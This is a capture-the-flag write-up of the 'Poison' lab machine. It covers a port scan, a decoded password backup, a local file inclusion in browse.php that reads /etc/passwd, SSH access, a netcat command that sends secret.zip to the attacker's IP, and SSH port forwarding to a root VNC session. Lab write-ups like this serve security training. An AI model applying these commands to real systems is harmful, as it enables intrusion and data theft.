



## Overview

Poison is a medium rated Linux box. It focuses mainly on log poisoning and port forwarding/tunneling. Personally, I did not use log poisoning to gain a foothold on the machine. There was an alternative way of logging in as a user via SSH using credentials found in `pwdbackup.txt` which was listed out by the `listfiles.php` file. There is also LFI in the `file` parameter of `browse.php` that allowed me to view `/etc/passwd` of the machine to see who the credentials belonged to. From the SSH session, I found a `secret.zip` that I exfiltrated to my attacker machine. The zip was password protected, but luckily reused the credentials from earlier and I acquired a `secret` file. This was used to access a VNC session as root which needed to be port forwarded to my attacker machine.

## Nmap Scan

```
# Nmap 7.99 scan initiated Fri Sep 25 03:02:17 2026 as: /usr/lib/nmap/nmap --privileged -sCV -T4 -p- -vvv --open -oN scan 10.129.93.155
Nmap scan report for 10.129.93.151
Host is up, received echo-reply ttl 63 (0.18s latency).
Scanned at 2026-09-25 03:02:20 PDT for 114s
Not shown: 46260 filtered tcp ports (no-response), 19273 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDFLpOCLU3rRUdNNbb5u5WlP+JKUpoYw4znHe0n4mRlv5sQ5kkkZSDNMqXtfWUFzevPaLaJboNBOAXjPwd1OV1wL2YFcGsTL5MOXgTeW4ixpxNBsnBj67mPSmQSaWcudPUmhqnT5VhKYLbPk43FsWqGkNhDtbuBVo9/BmN+GjN1v7w54PPtn8wDd7Zap3yStvwRxeq8E0nBE4odsfBhPPC01302RZzkiXymV73WqmI8MeF9W94giTBQS5swH6NgUe4/QV1tOjTct/uzidFx+8bbcwcQ1eUgK5DyRLaEhou7PRlZX6Pg5YgcuQUlYbGjgk6ycMJDuwb2D5mJkAzN4dih
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKXh613KF4mJTcOxbIy/3mN/O/wAYht2Vt4m9PUoQBBSao16RI9B3VYod1HSbx3PYsPpKmqjcT7A/fHggPIzDYU=
|   256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJrg2EBbG5D2maVLhDME5mZwrvlhTXrK7jiEI+MiZ+Am
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## HTTP - Port 80

The website is hosted on `Apache` and running `PHP` in the backend. I'm able to test some php files that are listed in "Sites to be tested".


I decided to test `listfiles.php` because it looked interesting. It gave me an array of files, but the one that caught my eye was a `pwdbackup.txt` file.


Navigating to that file showed me this:

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Seeing the equal sign at the end of the encoded password leads me to believe it is base64 encoded. I found this [website](https://base64-multiple-decode.netlify.app/) that will decode base64 multliple times.
I used it to acquire the decoded password `Charix!2#4%6&8(0`.


### Local File Include (LFI)

You may have noticed `browse.php` uses a `file` parameter which is an obvious Local File Include (LFI) vulnerability. I can use this to view any file I want: `view-source:http://poison.htb/browse.php?file=/etc/passwd`.

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

The charix user at the bottom matches the string "charix" in the decoded password.

## SSH as Charix

With the decoded password, I can now SSH into the system as the charix user.

```bash
└─$ ssh charix@poison.htb
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
(charix@poison.htb) Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To see the MAC addresses of the NICs on your system, type

        ifconfig -a
                -- Dru <genesis@istar.ca>
csh: The terminal database could not be opened.
csh: using dumb terminal settings.
charix@Poison:~ %

```

From here I can cat out the `user.txt` flag.

```bash
charix@Poison:~ % cat user.txt
eaa...
```

## Privesc to Root

### secret.zip

In charix's home directory, there is a `secret.zip` containing a `secret` file.

```bash
charix@Poison:~ % unzip -l secret.zip
Archive:  secret.zip
  Length     Date   Time    Name
 --------    ----   ----    ----
        8  01-24-18 19:01   secret
```

Trying to unzip the file tells us that it is password protected.

```bash
charix@Poison:~ % unzip secret.zip
Archive:  secret.zip
 extracting: secret |
unzip: Passphrase required for this entry
```

Luckily we can exfiltrate the zip file over to our attacker machine using netcat.

```bash
# On the victim machine:
charix@Poison:~ % cat secret.zip | nc 10.10.16.182 1234

# On our attacker machine:
└─$ nc -l -p 1234 > secret.zip
```

It's possible the `secret.zip` file reuses the same password as `charix` so I test it out and sure enough it works.

```bash
└─$ unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password:
 extracting: secret

┌──(kali㉿kali)-[~/htb/poison]
└─$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
```

I run `file` on `secret` and I don't really know what it is.

### VNC

I use `netstat` to see what services are running on the victim machine. I see the `VNC` service is running on ports 5801 and 5901.
Virtual Network Computing (VNC) is used for remote desktop access.

```bash
charix@Poison:~ % netstat -an -p tcp
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.129.93.155.22       10.10.16.182.36058     ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN

```

I looked up the vnc man page and saw that you can use a password file to authenticate to the VNC server. That's most likely what the `secret` file is meant for.
Because VNC is hosted locally on the victim machine, I have to port forward the VNC ports to my attacker machine. I can do this using `ssh` with the following command:

```bash
└─$ ssh -L 5901:localhost:5901 charix@poison.htb
```

On port `5901` of our attacker machine, we can now connect to the VNC server hosted on the victim machine.

I open up `vncviewer` and use the `-passwd` option to specify the `secret` file to see if I can authenticate to the VNC server.

```bash
└─$ vncviewer -passwd secret
```


I specify `127.0.0.1:5901` as the VNC server address to connect to the locally forwarded VNC service.

Once I hit enter, I get a shell as root.
I proceed to cat out the `root.txt` flag.

